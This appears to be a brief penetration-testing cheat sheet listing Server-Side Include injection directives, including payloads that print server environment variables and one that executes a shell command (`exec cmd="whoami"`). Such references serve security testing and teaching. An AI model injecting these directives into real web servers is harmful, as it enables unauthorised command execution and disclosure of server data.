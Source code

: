 ## SSI Injection - Directives

| Print variables         | `<!--#printenv -->`                                  |
| ----------------------- | ---------------------------------------------------- |
| Change config           | `<!--#config errmsg="Error!" -->`                    |
| Print specific variable | `<!--#echo var="DOCUMENT_NAME" var="DATE_LOCAL" -->` |
| Execute command         | `<!--#exec cmd="whoami" -->`                         |
| Include web file        | `<!--#include virtual="index.html" -->`              |
